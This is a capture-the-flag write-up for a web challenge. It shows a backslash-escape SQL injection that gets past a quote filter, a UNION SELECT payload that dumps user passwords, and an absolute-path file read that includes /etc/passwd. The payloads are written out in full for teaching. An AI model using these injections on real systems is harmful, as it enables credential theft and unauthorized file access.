





# aochinh26 - Wannanime

### Category: Web

### Description:
>Author: Winky

>Tìm kiếm anime mà bạn yêu thích

## Solution
After logging in, we can see a dashboard that search for anime

With further assessment into app.py to take a look of how everything functions, we can see that the search function will return not_found.html if the input has a single-quote inside. It was there to prevent SQL injection and read everything as a big string

>        if ("'" in keyword):
>            return render_template('not_found.html') 
>        if (keyword == ''):
>            count = math.ceil(cursor.execute("SELECT * FROM anime") / size)
>        else:
>            count = math.ceil(cursor.execute(f"SELECT * FROM anime WHERE LOWER(title) REGEXP '{keyword}' or LOWER(description) REGEXP '{keyword}'") / size)

But we can see that `keyword` was read twice. So if we can somehow disable the second single-quote from the first keyword, the second `keyword` would execute our SQL injection 

And the answer is the escape character `\` - backslash, to escape the single-quote and make SQL read it as a part of the string. Here's what the SQL command will look like

```sql
SELECT * FROM anime WHERE LOWER(title) REGEXP '\' or LOWER(description) REGEXP '\'
```

Now there is an annoying `\'` at the end, we can get rid of it using `--`, comment. We can do an SQL injection using `union`

After that, we check what does the database look like in `init.sql`

```text
CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(100) UNIQUE NOT NULL,
    password VARCHAR(100) NOT NULL,
    role VARCHAR(10) NOT NULL DEFAULT 'user'
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

CREATE TABLE IF NOT EXISTS anime (
    id INT AUTO_INCREMENT PRIMARY KEY,
    title TEXT NOT NULL,
    image_url TEXT NOT NULL,
    genres TEXT NOT NULL,
    description TEXT NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;
```

We then see the users and the anime table. Because the first part of the SQL command reads all `5` attributes in the anime table, 
>SELECT * FROM anime

we have to add `null` attribute in our payload until it has `5` of it. Although it only print the `title` as the second attribute, we can put our desired output in the second attribute. Here's the crafted payload:
```text
 union select null,password,null,null,null from users-- \
```
Here's what the SQL command will look like
```sql
SELECT * FROM anime WHERE LOWER(title) REGEXP ' union select null,password,null,null,null from users-- \' or LOWER(description) REGEXP ' union select null,password,null,null,null from users-- \'

SELECT * FROM anime WHERE LOWER(title) REGEXP 'a_big_string' union select null,password,null,null,null from users-- \'
```

Also from trials and errors, we have to put an additional space after the comment because the database is using `MYSQL`. If we didn't have the source code, we can try SQL injection from [PortSwigger SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to find the database version
```sql
 union select null,@@version,null,null,null-- \
```

After logging in with `admin` account, we'll see this:
>No filename provided

After we check app.py again to see how /admin work:

>    filename = request.args.get('filename', None)
>
>    if filename is None:
>        return 'No filename provided', 400
>
>    while '../' in filename:
>        filename = filename.replace('../', '')
>
>    return open(os.path.join('files/', filename),'rb').read()

We have to put `?filename=something` in the url for the server to show us. After one quick test with `/etc/passwd`, we know it's an absolute path

The `app/Dockerfile` will tell us where the flag is
```text
ARG directory=/this_is_fake_directory_in_prod_this_is_random
...
RUN mv flag.txt ${directory}/flag.txt
```
The final payload is 
```text
http://127.0.0.1:5000/admin?filename=/this_is_fake_directory_in_prod_this_is_random/flag.txt
```

### Flag
flag{fake_flag}


